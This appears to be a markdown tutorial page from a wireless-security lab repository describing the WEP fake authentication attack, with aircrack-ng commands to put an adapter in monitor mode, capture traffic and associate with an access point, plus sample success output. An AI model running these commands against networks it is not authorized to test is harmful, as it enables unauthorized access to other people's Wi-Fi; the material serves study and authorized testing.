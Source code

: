 # Fake Authentication Attack (WEP)

The fake authentication attack allows you to perform the two types of WEP authentication (Open System and Shared Key) plus associate with the access point (AP). This is only useful when you need an associated MAC address in various aireplay-ng attacks and there is currently no associated client. It should be noted that the fake authentication attack does NOT generate any ARP packets. Fake authentication cannot be used to authenticate/associate with WPA/WPA2 Access Points.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* No clients should be associated with AP or at least clients are idle

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE
```

```bash
# Success
01:56:20  Waiting for beacon frame (BSSID: AA:BB:CC:DD:EE:FF) on channel 3
01:56:20  Sending Authentication Request (Open System) [ACK]
01:56:20  Authentication successful
01:56:20  Sending Association Request [ACK]
01:56:20  Association successful :-) (AID: 1)

# Also a new client is added and AUTH set to OPN
[CH  3 ][ Elapsed: 5 mins ][ 2023-06-13 01:57 ][ paused output
BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
AA:BB:CC:DD:EE:FF  -53 100     2987      303    0   3   54e. WEP  WEP    OPN  wifu

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
AA:BB:CC:DD:EE:FF  AA:AA:AA:AA:AA -71   54e-54e     0      457
```

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Fake Authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)
